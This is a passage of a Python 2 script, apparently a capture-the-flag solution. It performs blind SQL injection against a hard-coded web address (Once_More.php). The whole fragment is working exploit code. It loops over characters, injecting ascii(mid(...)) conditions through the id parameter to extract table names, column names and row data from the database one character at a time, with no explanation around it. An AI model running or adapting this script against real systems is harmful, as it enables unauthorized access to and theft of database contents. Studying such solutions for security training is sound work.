 ```
        table_name = ''
        for y in xrange(1,20):
            key = 0
            for i in temp:
                url = 'http://120.24.86.145:9004/Once_More.php?id=1%27 and ascii(mid((select table_name from information_schema.tables where table_schema=''+schema_name+''limit '+str(x)+',1),'+str(y)+',1))=ascii(\''+str(i)+'\')%23 '
                s = requests.get(url)
                if "Hello" in s.text:
                    key = 1
                    table_name = table_name + str(i)
            if key == 0:
                break
        if table_name == '':
            break
        print ('one of tables is:' + table_name)
        for p in xrange(0,20):
            column_name = ''
            for q in xrange(1,20):
                key = 0
                for i in temp:
                    url_columns = 'http://120.24.86.145:9004/Once_More.php?id=1%27 and ascii(mid((select column_name  from information_schema.columns where table_schema=%27'+schema_name+'%27 and%20table_name=%27'+table_name+'%27limit '+str(p)+',1),'+str(q)+',1))=ascii(\''+str(i)+'\')%23'
                    s = requests.get(url_columns)
                    if "Hello" in s.text:
                        key = 1
                        column_name = column_name + str(i)
                if key ==0:
                    break
            if column_name == '':
                break
            print 'a column name of '+table_name+' is '+column_name
            for y in xrange(0,10):
                data = ''
                for z in xrange(1,20):
                    key = 0
                    for i in temp_data:
                        url_data = 'http://120.24.86.145:9004/Once_More.php?id=1%27 and ascii(mid((select '+column_name+' from%20`'+schema_name+'`.'+table_name+' limit%20'+str(y)+',1),'+str(z)+',1))=ascii(\''+str(i)+'\')%23'
                        s = requests.get(url_data)
                        if "Hello" in s.text:
                            data = data + str(i)
                            key = 1
                    if key == 0:
                        break
                if data == '':
                    break
                print ('one data of '+schema_name+'.'+table_name+'\'s '+column_name+' is '+data)


length_schema()
schema_name()
all()
```
